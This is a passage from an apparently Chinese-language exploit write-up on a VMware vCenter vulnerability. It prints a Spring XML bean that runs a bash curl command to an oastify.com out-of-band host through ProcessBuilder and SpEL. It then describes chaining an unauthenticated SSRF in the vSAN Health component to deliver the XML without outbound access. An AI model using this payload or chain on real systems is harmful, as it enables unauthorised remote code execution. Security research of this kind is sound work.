|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xmlns:context="http://www.springframework.org/schema/context"<br>       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context https://www.springframework.org/schema/context/spring-context.xsd"><br><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>            <list><br>                <value>/bin/bash</value><br>                <value>-c</value><br>                <value>curl http://dj0esgxds3fv9m4a0a6dzorr0i69uy.oastify.com</value><br>            </list><br>        </constructor-arg><br>        <property name="whatever" value="#{pb.start()}" /><br>    </bean><br></beans><br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print](assets/1708572547-edf9dcfcc625956e3da9e679e08030d9.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print")

##### [](#%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8)不出网利用

若要利用此漏洞，本质上需要获取一个 XML 文件的内容，而 Java 的 URL 并不支持 data 协议，那么需要返回内容可控的 SSRF 或者文件上传漏洞。这里利用的是返回内容可控的 SSRF 漏洞。漏洞位于 `/usr/lib/vmware-vpx/vsan-health/pyMoVsan/` 下的 vSAN Health 组件中 `VsanHttpProvider.py` 存在一个未授权访问 SSRF。
